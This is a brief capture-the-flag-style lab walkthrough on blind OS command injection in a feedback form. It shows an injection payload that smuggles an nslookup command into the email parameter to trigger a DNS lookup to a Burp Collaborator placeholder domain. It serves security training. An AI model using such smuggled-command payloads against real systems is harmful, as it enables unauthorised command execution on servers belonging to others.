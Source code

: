 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.  
<br/>**1\. You can find the vulnerability in the 'submit feedback' section**  
<br/>![768cf55f096d66f88d0f4402d7afe88d.png](../_resources/768cf55f096d66f88d0f4402d7afe88d.png)  
**  
<br/>2\. This section sends a request where you will change the email parameter to our payload:  
**  
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`**![4ce69bcc5b220aebf3fc1f8ff3ae5ac6.png](../_resources/4ce69bcc5b220aebf3fc1f8ff3ae5ac6.png)  
****  
<br/>3\. After sending the request you will receive a DNS request in the burp collaborator, and with that you have solved the lab  
![43751d94fdc2eda31fe17e40970e0cc6.png](../_resources/43751d94fdc2eda31fe17e40970e0cc6.png)  
**

&nbsp;